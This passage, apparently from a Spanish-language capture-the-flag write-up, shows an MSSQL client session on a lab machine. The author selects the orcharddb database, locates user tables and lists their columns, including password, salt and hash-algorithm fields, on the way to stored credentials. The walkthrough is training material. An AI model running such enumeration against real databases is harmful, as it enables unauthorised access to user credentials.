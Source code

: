 ```bash
model                                                                                                                          >

msdb                                                                                                                           >

orcharddb                                                                                                                      >

SQL> 
```

Vamos a usar la base de datos `orcharddb`

```bash
SQL> use orcharddb;
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: orcharddb
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed database context to 'orcharddb'.
SQL> 
```

Ahora vamos a enumerar las tablas para esa base de datos filtrando directamente por alguna que contenga la palabra `user`

```bash
SQL> select name from sys.tables where name like '%user%';
name                                                                                                                           >

------------------------------------------------------------------------------------------------------------------------------->

blog_Orchard_Users_UserPartRecord                                                                                              >

blog_Orchard_Roles_UserRolesPartRecord    
```

Ahora listamos las columnas de las tablas

```bash
SQL> select name from sys.columns where object_id = object_id('blog_Orchard_Users_UserPartRecord');  

name
--------------------------------------------------------------------------

Id
UserName
Email
NormalizedUserName
Password
PasswordFormat
HashAlgorithm
PasswordSalt
RegistrationStatus
EmailStatus
EmailChallengeToken
CreatedUtc
LastLoginUtc
LastLogoutUtc

SQL>
```
